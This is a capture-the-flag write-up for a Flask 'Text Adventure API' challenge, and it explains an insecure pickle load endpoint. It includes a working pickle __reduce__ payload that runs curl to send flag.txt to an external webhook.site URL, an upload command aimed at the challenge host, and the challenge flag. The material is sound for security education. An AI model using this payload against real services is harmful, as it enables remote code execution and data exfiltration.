 # Text Adventure API
> Explore my kitchen!

## About the Challenge
We got a source code (You can download the file [here](export.zip)) and also the website. Here is the preview of the website

![preview](images/preview.png)

## How to Solve?
Let's analyze `server.py`!

```py
#!/usr/local/bin/python

import os
import io
import pickle
from flask import Flask, Response, request, jsonify, session
from waitress import serve

app = Flask(__name__)
app.secret_key = os.environ.get("FLASK_SECRET_KEY", "")

rooms = {
    "start": {
        "description": "You are in a kitchen. There's a table, a cabinet, and a fridge.",
        "exits": ["table", "cabinet", "fridge"]
    },
    "table": {
        "description": "You find a table with some items on it.",
        "exits": ["start"],
        "objects": {
            "note": "A handwritten note with a message.",
            "apple": "A shiny red apple."
        }
    },
    "cabinet": {
        "description": "You open the cabinet and see various utensils.",
        "exits": ["start"],
        "objects": {
            "spoon": "A metal spoon.",
            "fork": "A fork with three prongs."
        }
    },
    "fridge": {
        "description": "You open the fridge and see various food items.",
        "exits": ["start"],
        "objects": {
            "milk": "A carton of fresh milk.",
            "eggs": "A dozen eggs in a container."
        }
    }
}

@app.route('/api/move', methods=['POST'])
def move():
    data = request.get_json()
    exit_choice = data.get("exit")
    current_location = get_current_location()
    if exit_choice in rooms[current_location]["exits"]:
        session['current_location'] = exit_choice
        return jsonify({"message": f"You move to the {exit_choice}. {rooms[exit_choice]['description']}"})
    else:
        return jsonify({"message": "You can't go that way."})

@app.route('/api/examine', methods=['GET'])
def examine():
    current_location = get_current_location()
    room_description = rooms[current_location]['description']
    exits = rooms[current_location]['exits']
    
    if "objects" in rooms[current_location]:
        objects = rooms[current_location]['objects']
        return jsonify({"current_location": current_location, "description": room_description, "objects": [obj for obj in objects], "exits": exits})
    else:
        return jsonify({"current_location": current_location, "description": room_description, "message": "There are no objects to examine here.", "exits": exits})

@app.route('/api/examine/<object_name>', methods=['GET'])
def examine_object(object_name):
    current_location = get_current_location()
    if "objects" in rooms[current_location] and object_name in rooms[current_location]['objects']:
        object_description = rooms[current_location]['objects'][object_name]
        return jsonify({"object": object_name, "description": object_description})
    else:
        return jsonify({"message": f"{object_name} not found or cannot be examined here."})


def get_current_location():
    return session.get('current_location', 'start')

@app.route('/api/save', methods=['GET'])
def save_session():
    session_data = {
        'current_location': get_current_location()
        # Add other session-related data as needed
    }

    memory_stream = io.BytesIO()
    pickle.dump(session_data, memory_stream)
    response = Response(memory_stream.getvalue(), content_type='application/octet-stream')
    response.headers['Content-Disposition'] = 'attachment; filename=data.pkl'
    
    return response

@app.route('/api/load', methods=['POST'])
def load_session():
    if 'file' not in request.files:
        return jsonify({"message": "No file part"})
    file = request.files['file']
    if file and file.filename.endswith('.pkl'):
        try:
            loaded_session = pickle.load(file)
            session.update(loaded_session)
        except:
            return jsonify({"message": "Failed to load save game session."})
        return jsonify({"message": "Game session loaded."})
    else:
        return jsonify({"message": "Invalid file format. Please upload a .pkl file."})

if __name__ == '__main__':
    if os.environ.get("DEPLOY_ENV") == "production":
        serve(app, host='0.0.0.0', port=5000)
    else:
        app.run(debug=True, host="0.0.0.0")
```

Let's focus on the endpoints `/api/save` and `/api/load`. The `/api/save` endpoint will dump a pickle file, while the `/api/load` endpoint will load our pickle file. And by using this [blog](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) as a reference. We can do remote code execution on the website by uploading malicious pickle file. I've created a python script to generate malicious pickle dump file

```py
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('curl -F password=@flag.txt https://webhook.site/36fc6839-b7fd-4de3-9f47-817f155a2c74')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    with open("test.pkl", "wb") as file:
        file.write(pickled)
```

And then execute this `curl` command

```
curl -F file=@data.pkl https://text-adventure-api.chall.pwnoh.io/api/load -v
```

And then check `webhook.site` to download the flag

![flag](images/flag.png)

```
bctf{y0u_f0und_7h3_py7h0n_p1ckl3_1n_7h3_k17ch3n}
```